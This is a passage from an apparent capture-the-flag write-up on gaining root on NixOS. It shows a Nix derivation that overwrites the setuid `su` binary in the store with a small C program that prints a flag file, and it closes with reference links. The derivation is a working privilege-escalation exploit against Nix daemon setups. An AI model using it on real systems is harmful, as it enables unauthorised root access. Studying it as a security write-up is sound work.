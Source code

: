 ```
-r-s--x--x 1 root root       63472 Mar 18 19:31 unix_chkpwd
```

Realistically, any of these could be chosen, since they all run as root,
but for the purpose of this example I am going with `su`, which is provided
by the `shadow` package (as shown by a quick `readlink $(whereis su)`).

```
[user@nixos:~]$ readlink $(whereis su)
/nix/store/bys9y4myz2a042l6yscf7gxibi4aw8c7-shadow-4.14.3-su/bin/su
```

With this in mind, we can now change our derivation to override the `su`
binary with a custom binary that just prints the flag.
To achieve this, we can copy our malicious binary over the `su` binary
in `pkgs.shadow.su` ([`su` is the output of the `shadow` package][su-output] that
actually includes the `su` binary).
Initially, I used a simple bash script that would just `cat` the flag, but
[Linux ignores the setuid bit on all interpreted executables][setuid-shell],
which meant the script did not run as root and failed to print it.
For that reason, we can resort to a simple C binary that does the same thing.

```nix, hl_lines=10
# ...
{
  packages.${system} = rec {
    exploit = pkgs.stdenv.mkDerivation {
      # ...
      installPhase = ''
        echo ${pkgs.shadow.su}

        chmod +w ${pkgs.shadow.su}/bin/su
        cp ${get-flag}/bin/get-flag ${pkgs.shadow.su}/bin/su
        chmod -w ${pkgs.shadow.su}/bin/su

        echo success > $out
      '';
    };

    # Prints flag to stdout
    get-flag = pkgs.writeCBin "get-flag" ''
      #include <stdio.h>
      int main() {
        char buffer[1024];
        FILE *f = fopen("/data/flag", "r");
        int n = fread(buffer, 1, 1023, f);
        fwrite(buffer, 1, n, stdout);
        return 0;
      }
    '';
  };
}
```


[Mastodon post]: https://hachyderm.io/@leftpaddotpy/112103523507978883
[daemon-snippet]: https://github.com/NixOS/nix/blob/2.13.6/src/nix/daemon.cc#L244-L252
[breaks RPM builds]: https://github.com/NixOS/nix/commit/98968fbb63a1a049b2439bfc2a7d53e5b51471e3
[daemon-log-message]: https://github.com/NixOS/nix/blob/2.13.6/src/nix/daemon.cc#L215-L217
[nix-pe-issue]: https://github.com/NixOS/nix/issues/9649#issuecomment-1868001568
[daemon-ops]: https://github.com/NixOS/nix/blob/2.13.6/src/libstore/daemon.cc#L269
[@nrab@hachyderm.io]: https://hachyderm.io/@nrab
[diff-hook-manual]: https://github.com/NixOS/nix/blob/2.13.6/doc/manual/src/advanced-topics/diff-hook.md
[setuid-wrappers]: https://discourse.nixos.org/t/how-to-create-setuid-wrapper-for-installed-program/2590/2
[su-output]: https://github.com/NixOS/nixpkgs/blob/6e2f00c83911461438301db0dba5281197fe4b3a/pkgs/os-specific/linux/shadow/default.nix#L88-L90
[setuid-shell]: https://unix.stackexchange.com/questions/364/allow-setuid-on-shell-scripts
[remove-trusted-users]: https://github.com/diogotcorreia/dotfiles/commit/e8cd4c0676eb8cc6ce7c7e814846831568adb735
[@leftpaddotpy]: https://hachyderm.io/@leftpaddotpy